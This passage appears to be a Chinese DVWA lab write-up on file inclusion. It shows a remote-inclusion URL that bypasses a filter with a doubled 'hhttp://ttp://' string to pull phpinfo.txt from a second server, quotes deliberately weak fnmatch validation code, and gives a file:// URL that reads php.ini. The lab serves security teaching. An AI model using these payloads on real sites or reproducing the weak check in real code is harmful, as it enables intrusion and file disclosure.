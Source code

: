 **远程文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=hhttp://ttp://<服务器B IP地址!!!>/phpinfo.txt` 远程执行命令成功

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa22.png)

经过编码后的 url 不能绕过替换规则,因为解码是在浏览器端完成的,发送过去的 page 参数依然是http://<IP地址!!!>/phpinfo.txt,因此读取失败.

### High

**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}

?>
```
可以看到,High 级别的代码使用了 fnmatch 函数检查 page 参数,要求 page 参数的开头必须是 file,服务器才会去包含相应的文件.

**相关函数**
- **fnmatch(pattern,string,flags)**

	函数根据指定的模式来匹配文件名或字符串.

	此函数对于文件名尤其有用,但也可以用于普通的字符串.普通用户可能习惯于 shell 模式或者至少其中最简单的形式 '?' 和 '*' 通配符,因此使用 fnmatch() 来代替 ereg() 或者 preg_match() 来进行前端搜索表达式输入对于非程序员用户更加方便.

注:fnmatch 函数适用于 PHP >= 4.3.0,因此 php 版本高于这个才能利用,否则会出现打不开 high 等级页面.

**漏洞利用**

High 级别的代码规定只能包含 file 开头的文件,看似安全,不幸的是我们依然可以利用 file 协议绕过防护策略.file 协议其实我们并不陌生,当我们用浏览器打开一个本地文件时,用的就是 file 协议.

构造 url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file://C:/phpStudy/PHPTutorial/WWW/DVWA/php.ini`
